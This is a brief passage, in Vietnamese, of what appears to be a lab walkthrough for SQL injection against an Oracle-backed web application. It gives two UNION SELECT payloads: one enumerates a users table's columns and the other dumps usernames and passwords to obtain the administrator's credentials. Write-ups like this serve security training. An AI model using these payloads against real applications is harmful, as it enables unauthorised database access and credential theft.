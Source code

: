 Tiếp theo, em liệt kê các cột của bảng `USERS_XAFIWJ` sử dụng payload `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_XAFIWJ'--` thấy được cột `PASSWORD_OSXRXI` và cột `USERNAME_ORDSTE`:

![lab-8-1](images/lab-8/lab-8-1.png)

Em đọc nội dung của 2 cột đó sử dụng payload `' UNION SELECT PASSWORD_OSXRXI, USERNAME_ORDSTE FROM USERS_XAFIWJ--` thấy được thông tin của `administrator`:

![lab-8-2](images/lab-8/lab-8-2.png)
